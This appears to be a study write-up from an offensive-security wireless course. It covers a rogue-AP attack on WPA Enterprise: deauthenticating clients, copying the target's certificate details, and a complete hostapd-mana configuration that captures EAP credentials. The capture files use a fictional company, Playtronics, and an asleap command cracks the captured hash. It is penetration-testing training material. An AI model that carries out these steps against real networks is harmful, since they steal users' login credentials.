 # Attacking WPA Enterprise

WPA Enterprise uses Extensible Authentication Protocol (EAP).[1](https://portal.offsec.com/courses/pen-210-9545/learning/attacking-wpa-enterprise-15796/attacking-wpa-enterprise-16073#fn-local_id_326-1) EAP is a framework for authentication, which allows a number of different authentication schemes or methods.

### Attack

Let's take a moment to summarize our attack. We will be creating a rogue AP to match the settings of our target as closely as possible. We will use hostapd-mana to create the rogue AP and match the target settings. This will help us capture the credentials, which we will crack later.



After putting our **wlan0** interface in monitor mode, we now have an interface called **wlan0mon**. We will identify the channel of the target AP and gather its ESSID and BSSID.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Let's return to our attack. Next, we will restart the capture on the same channel as the AP. This is similar to what we did when cracking WPA-PSK. We'll save the data to disk as Playtronics-01.cap.

In order to get the certificate, we can deauthenticate a client. We'll do this the same way we would with a WPA-PSK client, using _aireplay-ng_.

Once airodump-ng indicates we've captured a handshake, we can stop the capture. In most instances, a certificate is present. We will get the certificate from the enterprise authentication that happened before the handshake.

We can now disable monitor mode by running **sudo airmon-ng stop wlan0mon**.

We have to open the capture file with _Wireshark_ and locate the server certificate frame.

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

For each certificate, we right click and select _Export Packet Bytes_ to save the data into a file with a .der extension.

As a root user, we'll need to navigate to /etc/freeradius/3.0/certs and change the settings of ca.cnf. We edit the **\[certificate\_authority]** fields to match our target CA certificate to appear less suspicious to clients in case they inspect the certificate.

```
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```

The server information needs to be updated in server.cnf. This should be similar to what we did with the CA. We will edit the **\[server]** fields to match our target server certificate. We'll skip client.cnf because we don't need it.

```
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```

delete the DH file before running make.

```
openssl dhparam -out dh -2 2048
```

we have to create the hostapd-mana configuration file, /etc/hostapd-mana/mana.conf:

```
# SSID of the AP
ssid=Playtronics

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

We'll now need to create the EAP user file referenced in the configuration file, /etc/hostapd-mana/mana.eap\_user. The file should contain the following.

{% code overflow="wrap" %}
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```
{% endcode %}

We're ready to continue. Next, we'll start hostapd-mana with the configuration file we created earlier, /etc/hostapd-mana/mana.conf.

```
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

When a victim attempts to authenticate to our AP, the login attempt is captured. These credentials are also in /tmp/hostapd.credout.

We will be using **asleap** to crack the password hash.

{% code overflow="wrap" %}
```
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
```
{% endcode %}

